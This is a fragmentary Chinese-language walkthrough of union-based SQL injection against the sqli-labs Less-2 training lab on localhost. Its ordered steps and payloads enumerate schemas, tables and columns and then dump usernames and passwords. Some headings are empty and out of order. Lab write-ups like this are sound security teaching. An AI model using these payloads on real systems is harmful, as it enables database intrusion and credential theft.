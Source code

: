  
 报错回显2，3
说明第2，3个位置可以报错回显查询
<hr/>

<h3>**第四步：查询数据库的基本信息**</h3>
在第2，3列输入需要查询的命令
http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=-1 union select 1,database(),user()
报错回显

 
<hr/>


<h3>**第五步：爆数据库名**</h3>

http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata

 

<hr/>


<h3>**第六步：爆数据库表名**</h3>

http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'

 
后面的表名'security'也可以直接用database() 
是一样的效果
http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()

 

<hr/>


<h3>**第七步：爆字段名**</h3>

http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'

 
<hr/>


<h3>**第八步：爆数据**</h3>
http://localhost:8080/sqli-labs-master/Less-2/<br/> ?id=-1 union select 1,username,password from users where id=2

 



### **第一步：注入点测试**

---


### **第三步：判断回显位**

---
